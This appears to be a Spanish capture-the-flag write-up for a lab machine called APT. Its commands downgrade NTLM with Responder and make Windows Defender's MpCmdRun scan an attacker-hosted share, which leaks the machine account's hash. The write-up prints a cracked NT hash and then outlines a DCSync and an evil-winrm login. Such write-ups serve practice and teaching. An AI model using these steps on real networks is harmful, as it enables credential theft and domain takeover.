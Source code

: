 ```powershell
Invoke-Binary Seatbelt.exe -group=all
```

> Vemos que los clientes soportan NTLMv1.

## crack.sh

Podemos realizar un ataque de tipo downgrade. Con el **responder**. Utilizando la página [crack.sh](https://crack.sh/). Para ello modificamos el challange del responder como nos aparece en la página.

Nos aprovechamos de una utilidad de windows defender para analizar archivos remotos.

```bash
responder -I tun0 --lm 
```

```powershell
C:\Program Files\Windows Defender\MpCmdRun.exe -Scan -ScanType 3 -File \\10.10.14.10\archivo
```

> Obtenemos el hash del APT$

Para adecuarlo al formato que requiere la página utilizmos la herramienta [ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi)

```bash
python ntlmv1.py --ntlmv1 '<hash>'
```

> To Crack with crack.sh...

> NTHASH: d167c3238864b12f5f82feae86a7f798

# Prilege Escalation
Con el usuario APT$ podemos hacer un DCSync attack con [secretsdump.py](/secretsdump.py/).

# Explotación

## Evil-winrm
Nos conectamos con la herramienta [evil-winrm]((/winrm/)

> root.txt

